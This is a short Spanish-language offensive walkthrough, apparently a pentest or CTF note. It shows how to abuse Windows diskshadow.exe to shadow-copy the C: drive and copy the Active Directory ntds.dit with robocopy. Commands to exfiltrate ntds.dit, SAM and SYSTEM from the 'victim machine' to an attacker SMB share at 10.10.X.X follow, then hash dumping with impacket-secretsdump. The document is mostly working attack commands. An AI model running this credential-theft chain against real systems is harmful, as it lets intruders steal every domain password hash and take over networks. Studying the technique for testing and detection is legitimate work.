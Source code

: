 
## [](##header-2)DISKSHADOW.EXE 

es una herramienta de linea de comandos incluida en Windows que se utiliza para crear y administrar
instantaneas de volumen, tambien conocidas como instataneas de volumen de sombra. Es util para realizar copias de 
seguridad de datos y para proteger la integridad de los datos al permitir la recuperacion de datos en caso de perdida
o daño. Tambien puede ser utilizado para realizar tareas de copia de archivos

- Creando un volumen sombra con Diskshadow.exe 

       set context persistent nowriters

1. este comando crea un contexto de copia de seguridad persistente sin escritores

       add volume c: alias atreus

2. esto crea el volumen que deseamos sombrear en este caso la unidad C:\

       create

3. crear la unidad logica

       expose %atreus% z:

4. esto va a facilitar el acceso a los recursos compartidos con el alias que asignamos

- este archivo text.txt lo subimos a la maquina en C:\Windows\Temp

       set context persistent nowriters
       add volume c: alias atreus
       create
       expose %atreus%
 
## [](##header-2)Ejecucion de text.txt Diskshadow.exe 

    diskshadow.exe /s c:\Windows\Temp\text.txt

con esto ya podemos ingresar a la unidad logica z:\ que anteriormente creamos
y vamos a poder ver todos los archivos de la maquina

    dir z:\  
    dir z:\Windows\NTDS\
    robocopy /b z:\Windows\NTDS\ . ntds.dit y con esto ya tendriamos el ntds.dit

no pude descargarme los archivos ntds.dit system sam por evil-winrm, asique me los transferi a mi 
maquina con smbserver

    impacket-smbserver smbFolder $(pwd) -smb2support -> desde mi maquina de atacante
    copy ntds.dit \\10.10.X.X\smbFolder\ntds.dit -> desde la maquina victima comprometida
    copy sam \\10.10.X.X\smbFolder\sam
    copy system \\10.10.X.X\smbFolder\system

## [](##header-2)Dump hashes NTDS y Shell ROOT

    impacket-secretsdump.py -system system -ntds ntds.dit LOCAL  
